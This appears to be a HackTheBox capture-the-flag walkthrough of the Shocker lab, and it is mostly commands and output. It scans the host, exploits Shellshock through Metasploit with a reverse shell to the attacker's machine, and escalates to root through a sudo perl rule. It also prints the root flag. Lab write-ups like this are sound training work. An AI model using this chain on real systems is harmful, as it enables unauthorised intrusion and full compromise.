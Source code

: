 ```yaml
---
title: "HTB Walkthrough: Shocker"
date: 2023-03-04T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/shocker/Shocker.png
tags:
  - Easy
  - Linux Host
  - Apache
  - Perl
  - SUID Exploitation
  - Shellshock
  
---
```


![Shocker Logo](/assets/images/HTB/shocker/Shocker.png)  

---

## Initial Scanning  


Let's run our port scanner to identify active TCP services.  

### TCP Port Scan  

Start a long scan:  

```bash
sudo nmap -sS -T5 -A -sV -p- 10.10.10.56 | tee nmap_full.log

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

Also run a short one:  

```bash

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

### Nikto Web Vulnerability Scan  

```bash
nikto -h 10.10.10.56:80 | tee nikto.log

---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-03-04 05:38:19 (GMT-5) (709 seconds)
---------------------------------------------------------------------------
```  

### FFUF Directory Busting  

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ | tee ffuf.log

                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 78ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 76ms]
```  

## Web Enumeration  

Navigating to our browser, we discover a simple picture hosted on 10.10.10.56:  

![Browser Image](/assets/images/HTB/shocker/browser.png)  

After enumerating this for a minute, we don't really find anything. I downloaded the 'bug.jpg' image on the home page, and enumerated it with file, strings, and exiftool but didn't find anything.  

After I while I was suspicious that my ffuf command failed somehow and ran a dirbuster scan. This scan returned the /cgi-bin/ and I decided to run dirbuster again, looking for collow cgi-bin files with extensions '.cgi, .sh'  

![Dirbuster1](/assets/images/HTB/shocker/dirbuster.png)  

![Dirbuster](/assets/images/HTB/shocker/cgi-bin.png)  

With this, we find a bash script at /cgi-bin/user.sh 

## Initial Access  

This script is vulnerable to the popular Shellshock exploit. Let's run it with metasploit.  

```bash
msfconsole
search shellshock

 1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
 
use 1
show options
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 10.10.10.56
rhosts => 10.10.10.56  
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lport 8080                                              
lport => 8080   
                                                                                                    
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost tun0                                              
lhost => 10.10.14.9    
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/user.sh
targeturi => /cgi-bin/user.sh

run
[*] Started reverse TCP handler on 10.10.14.9:8080 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.9:8080 -> 10.10.10.56:33052) at 2023-03-04 07:00:47 -0500

meterpreter > id
[-] Unknown command: id

meterpreter > shell
Process 11865 created.
Channel 2 created.
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```  

Grab the flag  

```bash
cd /home/shelly
cat user.txt
```  

## Privilege Escalation  

Always check sudo privileges on users after gaining access.  

```bash
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```  

Doing a quick check on GTFOBins https://gtfobins.github.io/gtfobins/perl/ we find this "Sudo" privilege escalation.

```bash
$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# cat root.txt
cat root.txt
33a18a4c95d83e56b860480a4edaba87
```  

And there you have it!
